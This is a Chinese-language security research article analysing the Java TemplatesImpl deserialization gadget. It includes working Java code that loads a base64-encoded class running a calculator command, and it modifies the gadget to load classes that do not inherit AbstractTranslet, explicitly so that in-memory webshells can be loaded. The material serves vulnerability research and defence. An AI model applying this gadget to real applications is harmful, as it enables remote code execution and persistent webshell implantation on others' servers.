

# TemplatesImpl 分析

## 0x01 TemplatesImpl 最初形态

`com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl` 是 Java 中 Xalan XSLT 编译器的一个类，作为 Apache XML Project 的一部分，用于处理 XML 文档和执行 XSLT 转换。`TemplatesImpl` 类实现了 `javax.xml.transform.Templates` 接口，用于表示已编译的 XSLT 模板，实现了 `java.io.Serializable` 代表可被反序列化。

`TemplatesImpl` 类中存在一个 `getTransletInstance()` 方法会将 `_class` 数组下标为 `_transletIndex` (即-1)的值实例化，如果该数组及下标值可控，则我们可以执行任意代码。


### 需要满足什么条件

除了 `_name` 不为空这个条件外，还调用了 `defineTransletClasses()` 方法，该方法中有许多限制条件会抛出异常，逐个看看。

1. `_bytecodes` 不为空，后续会调用 `loader.defineClass()` 加载，所以要求为 JavaClass 字节
2. Classloader 加载，`_tfactory` 不为空


3. `_transletIndex` 需要 >= 1，其默认值为 -1。

判断该条件前是对 `_bytecodes` 数组的遍历，将 `_transletIndex` 设置为父类是 `com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet` 的下标。


条件都满足后就会返回一开始的 `getTransletInstance()` 方法，`newInstance()` 一个对象。

### 怎么触发

触发 `getTransletInstance()` 方法的方式有很多种，比如 fastjson 触发 getter、各种 `toString()` 方法触发 getter ，而在这个类中还存在一个 `newTransformer()` 方法也调用了 `getTransletInstance()` 。可以利用任意方法调用来触发。


`getOutputProperties()` 又调用了 `newTransformer()`


基于这些条件写出了一个 `open -a Calculator.app` 的最初利用 Demo，接下来将继续变形。

```java
public static void TemplatesImplTest() throws Exception {
    String calcBase64 = "yv66vgAAADQAMAoABwAiCgAjACQIACUKACMAJgcAJwcAKAcAKQEABjxpbml0PgEAAygpVgEABENvZGUBAA9MaW5lTnVtYmVyVGFibGUBABJMb2NhbFZhcmlhYmxlVGFibGUBAAR0aGlzAQAgTGNvbS93aG9vcHN1bml4L3Z1bC91dGlscy9FeGVjMjsBAAl0cmFuc2Zvcm0BAHIoTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007W0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7KVYBAAhkb2N1bWVudAEALUxjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NOwEACGhhbmRsZXJzAQBCW0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7AQAKRXhjZXB0aW9ucwcAKgEAEE1ldGhvZFBhcmFtZXRlcnMBAKYoTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvZHRtL0RUTUF4aXNJdGVyYXRvcjtMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOylWAQAIaXRlcmF0b3IBADVMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9kdG0vRFRNQXhpc0l0ZXJhdG9yOwEAB2hhbmRsZXIBAEFMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOwEACDxjbGluaXQ+AQANU3RhY2tNYXBUYWJsZQcAJwEAClNvdXJjZUZpbGUBAApFeGVjMi5qYXZhDAAIAAkHACsMACwALQEAFm9wZW4gLWEgQ2FsY3VsYXRvci5hcHAMAC4ALwEAE2phdmEvbGFuZy9FeGNlcHRpb24BAB5jb20vd2hvb3BzdW5peC92dWwvdXRpbHMvRXhlYzIBAEBjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvcnVudGltZS9BYnN0cmFjdFRyYW5zbGV0AQA5Y29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL1RyYW5zbGV0RXhjZXB0aW9uAQARamF2YS9sYW5nL1J1bnRpbWUBAApnZXRSdW50aW1lAQAVKClMamF2YS9sYW5nL1J1bnRpbWU7AQAEZXhlYwEAJyhMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9Qcm9jZXNzOwAhAAYABwAAAAAABAABAAgACQABAAoAAAAvAAEAAQAAAAUqtwABsQAAAAIACwAAAAYAAQAAAAwADAAAAAwAAQAAAAUADQAOAAAAAQAPABAAAwAKAAAAPwAAAAMAAAABsQAAAAIACwAAAAYAAQAAABcADAAAACAAAwAAAAEADQAOAAAAAAABABEAEgABAAAAAQATABQAAgAVAAAABAABABYAFwAAAAkCABEAAAATAAAAAQAPABgAAwAKAAAASQAAAAQAAAABsQAAAAIACwAAAAYAAQAAABwADAAAACoABAAAAAEADQAOAAAAAAABABEAEgABAAAAAQAZABoAAgAAAAEAGwAcAAMAFQAAAAQAAQAWABcAAAANAwARAAAAGQAAABsAAAAIAB0ACQABAAoAAABPAAIAAQAAAA64AAISA7YABFenAARLsQABAAAACQAMAAUAAwALAAAAEgAEAAAADwAJABEADAAQAA0AEgAMAAAAAgAAAB4AAAAHAAJMBwAfAAABACAAAAACACE=";
    byte[] bytes = java.util.Base64.getDecoder().decode(calcBase64);
    com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl templates = new com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl();
    Reflections.setFieldValue(templates, "_bytecodes", new byte[][]{bytes});
    Reflections.setFieldValue(templates, "_name", "anystr");
    Reflections.setFieldValue(templates, "_tfactory", new com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl());
    templates.newTransformer();
}
```

## 0x02 去除 AbstractTranslet 限制

在上一节中，使用 `TemplatesImpl` 实现了简单的任意字节码加载。其中的一个条件是 JavaClass 必须继承 `AbstractTranslet` 类，如果我们期望生成 WebSocket 内存马、Value 内存马等也需要继承类的字节码就没办法了，所以接下来要去除该限制。

`AbstractTranslet` 类通过影响 `_transletIndex` 的值来限制执行，但 `_transletIndex` 没有被标记为 `transient` 是能参与序列化过程的，可以直接通过反射来绕过这个限制。


当类不继承  `AbstractTranslet` 时，会向 `_auxClasses` 中 put 数据，因此还需要保证 `_auxClasses` 不为空。因此需要实例化 `_auxClasses`。在代码前面有一个判断，当  `classCount` 大于 1 时，即 `_bytecodes` 传入多个类时会将 `_auxClasses` 赋值为 HashMap。



在截图的时候发现，直接记录的图中不同的 JDK 版本中  `_auxClasses` 会被赋值为 HashTable 的情况，虽然这里不影响。但是引发思考，去除这个限制后是否在一些 JDK 版本中就不生效了？还需要仔细测试。


最终构造的方式如下：

```java
Reflections.setFieldValue(templates, "_bytecodes", new byte[][]{
classBytes, ClassFiles.classAsBytes(PPP.class)
});

Reflections.setFieldValue(templates, "_name", "anyStr");
// 满足条件 1. classCount也就是_bytecodes的数量大于1   2. _transletIndex >= 0  可去掉 AbstractTranslet
Reflections.setFieldValue(templates, "_transletIndex", 0);
Reflections.setFieldValue(templates, "_tfactory", transFactory.newInstance());
```

## 0x03 _tfactory 问题

在之前的分析中，为了满足 `_tfactory` 不为空这个条件，通过反射设置为 `TransformerFactoryImpl` 实例对象。但是事实上 `_tfactory` 这个字段是被 `transient` 修饰的，并不参与序列化过程，所以我们是没有必要设置这个值的。


而在调用 `readObject()` 方法时也对该字段进行赋值，所以不会报错。


最后结果如下：

```java
Reflections.setFieldValue(templates, "_bytecodes", new byte[][]{
        classBytes, ClassFiles.classAsBytes(PPP.class)
});

Reflections.setFieldValue(templates, "_name", "anyStr");
Reflections.setFieldValue(templates, "_transletIndex", 0);
```


**参考**

> Java安全攻防之从wsProxy到AbstractTranslet https://www.anquanke.com/post/id/278639